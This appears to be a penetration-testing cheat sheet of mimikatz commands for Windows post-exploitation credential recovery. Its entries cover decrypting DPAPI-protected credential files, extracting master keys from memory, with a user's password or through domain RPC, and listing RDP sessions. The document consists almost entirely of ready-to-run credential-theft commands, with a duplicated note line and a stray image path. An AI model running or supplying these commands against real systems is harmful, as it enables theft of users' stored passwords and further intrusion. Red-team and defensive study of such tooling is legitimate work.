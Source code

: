 ```
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile>
```

## mimikatz - dpapi - find master key
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
$ mimikatz !sekurlsa::dpapi
```

## mimikatz - dpapi - use master key
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

sid : origin domain sid : Get-DomainSID -Domain domainname
sid : origin domain sid : Get-DomainSID -Domain domainname
```
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile> /masterkey:<masterkey>
```

## mimikatz - dpapi - Extract masterkey Administrator
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
mimikatz sekurlsa::dpapi
```


## mimikatz - dpapi - Extract masterkey with password
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /sid:<SID> /password:<password> /protected
```

## mimikatz - dpapi - Extract masterkey AD
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /rpc
```



% mimikatz, rdp

## mimikatz - rdp - List sessions 
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
ts::sessions
```

